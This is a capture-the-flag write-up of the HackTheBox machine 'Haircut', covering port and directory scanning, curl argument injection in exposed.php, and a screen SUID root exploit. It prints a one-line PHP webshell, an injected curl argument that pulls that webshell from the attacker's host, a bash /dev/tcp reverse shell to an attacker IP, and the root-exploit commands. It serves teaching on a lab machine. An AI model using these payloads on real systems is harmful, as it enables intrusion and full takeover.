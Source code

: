 ```yaml
---
title: HTB - Haircut
date: 2023-08-12 22:30:00 -0500
categories: [Writeups, HackTheBox]
tags: [writeup, hacking, linux] # TAG names should always be lowercase
---
```


## Machine info

Haircut is a fairly simple machine, however it does touch on several useful attack vectors. Most notably, this machine demonstrates the risk of user-specified CURL arguments, which still impacts many active services today.

<p style="text-align: center;"><a href="https://app.hackthebox.com/machines/Haircut" target="_blank">https://app.hackthebox.com/machines/Haircut</a></p>

![info-card](assets/img/hack-the-box/haircut/haircut-info_card.png){: width="700" }
_Info card_

## Enumeration

We begin our ennumeration by searching for open ports with nmap tool.

```console
sudo nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.10.24 -oG allPorts
```

![nmap-port-scan](assets/img/hack-the-box/haircut/haircut-nmap_port_scan.png)
_Nmap port scan_

We find open 22 (ssh) and 80 (http) open, so we take a look at the webserver running on port 80 and find nothing really interesting.

![webserver](assets/img/hack-the-box/haircut/haircut-webserver.png)
_Werserver on port 80_

Wappalyzer web extension show us that the site's programming language is PHP, which is valuable information at the time of doing web enumeration.

![wappalyzer info](assets/img/hack-the-box/haircut/haircut-wappalyzer.png)
_Wappalyzer_

We do a web scan using the tool <a href="https://github.com/epi052/feroxbuster" target="_blank">feroxbuster</a> in order to discover directories and files with the extension php on the webserver's root path.

```console
feroxbuster -u http://10.10.10.24/ -x php -t 200
```

![feroxbuster](assets/img/hack-the-box/haircut/haircut-feroxbuster.png)
_Feroxbuster scan_

## Gaining a foothold

The results of feroxbuster lead us to a file called `exposed.php` which allows an SSRF vulnerability that let us process requests against localhost inside the webserver machine.

![exposed-php](assets/img/hack-the-box/haircut/haircut-exposed_php.png)
_/exposed.php_

The output from processing the request seems like one of the command `curl`, so we make some tests and find out that our input is being concatenated to a curl command execution.
We can take advantage of this in order to manipulate the command to fetch a request against our attacking machine and save a malicious file inside the webserver adding the `-o` parameter to the command to save the output to a file.

```
http://<ATTACKING-IP>/php-webshell.php -o /var/www/html/uploads/php-webshell.php
```

This way we upload a webshell, which we can access through the path `/uploads/php-webshell.php`{: .filepath} of the webserver.<br>
This is the payload of our php webshell in which we can execute commands via the cmd parameter.

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```
{: file="php-webshell.php" }

![webshell](assets/img/hack-the-box/haircut/haircut-webshell.png)
_PHP webshell_

Now that we have RCE on the victim machine, we can send us a reverse shell for convenience.

```
bash -c 'bash -i 1>%26 /dev/tcp/<ATTACKER-IP>/<PORT> 0>%261'
```

![reverse-shell](assets/img/hack-the-box/haircut/haircurt-reverse_shell.png)
_Reverse shell connection_

## Privilege escalation

In order to escalate privileges we check for files with SUID permission.

```console
find / -user root -perm /4000 2>/dev/null
```

![suid-binaries](assets/img/hack-the-box/haircut/haircut-suid.png)
_www-data SUID binaries_

We find an unusual binary `screen-4.50` with the SUID permission, so we look for an <a href="https://www.exploit-db.com/exploits/41154" target="_blank">exploit</a> and luckily find one.<br>
We try to run it on the victim machine, but gcc seems to be broken, so we follow the compilation steps of the script locally on our attacking machine. That should leave us with two files, `lihax.so` and `rootshell` that we have to transfer to the victim machine on the `/tmp`{: .filepath} directory. Now there we finish to execute the commands from the script.

```console
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
```

![priv-esc](assets/img/hack-the-box/haircut/haircut-priv_esc.png)
_Exploit commands execution_

And that way we gain a root shell on the victim machine.<br>
The flags for user and root can be found on `/home/marie/user.txt`{: .filepath} and `/root/root.txt`{: .filepath} respectively.
